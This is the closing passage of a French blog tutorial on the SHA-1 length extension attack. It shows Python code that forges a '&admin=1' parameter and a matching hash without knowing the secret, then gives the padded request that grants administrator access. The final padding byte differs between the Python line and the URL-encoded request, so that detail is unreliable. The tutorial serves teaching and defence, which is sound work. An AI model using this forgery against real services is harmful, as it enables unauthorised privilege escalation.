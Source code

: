 ```python
    h4 = (h4 + e) & 0xffffffff
    return '%08x%08x%08x%08x%08x' % (h0, h1, h2, h3, h4)
```

La fonction `sha1_custom` permet de calculer une itération sur un bloc avec des valeurs h0, h1, h2, h3 et h4 variables.

En lançant cette fonction avec nos informations, nous obtenons le résultat suivant :

```python
print sha1_custom("&admin=1", int(0x3e1dc496), int(0xd50661d4), int(0x76139ee7), int(0xe936d9b6), int(0x822f2f62))
# Output : 18fd6206c61138eee7f99a73bf9172f9b28acb61
```

Voici notre emprunte calculée ! Nous pouvons vérifier qu'elle est bien égal à celle fournie par le serveur si nous lui envoyons notre message forgé :

```python
print hashlib.sha1("MonS3cret" + "name=hackndo&admin=0" + "\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe8" + "&admin=1").hexdigest()
# Output : 18fd6206c61138eee7f99a73bf9172f9b28acb61
```

Voilà ! Nous avons prédit correctement la valeur de l'empreinte sans même connaitre la valeur secrète ! (Mais avec un petit raccourci, nous connaissions sa longueur. Mais faire une dizaine de tentatives, ce n'est pas non plus très long une fois qu'on a bien compris !)

Pour conclure, nous enverrons à notre serveur web les paramètres suivants :

```text
name=hackndo&admin=0%80%00%00%00...%00%A0&admin=1&check=18fd6206c61138eee7f99a73bf9172f9b28acb61
```

Le serveur va alors prendre tous les éléments qui précèdent le `check`, puis préfixer cela avec la valeur secrète, calculer le sha1, et vérifier cette valeur avec notre valeur dans la variable `check. Comme c'est bien la même, nous voilà administrateur !

J'espère que cet article vous a plu. Du fait de sa complexité, si jamais des éléments ne sont pas clairs, surtout n'hésitez pas à poster des commentaires, je m’efforcerai d'y répondre au mieux, as usual.

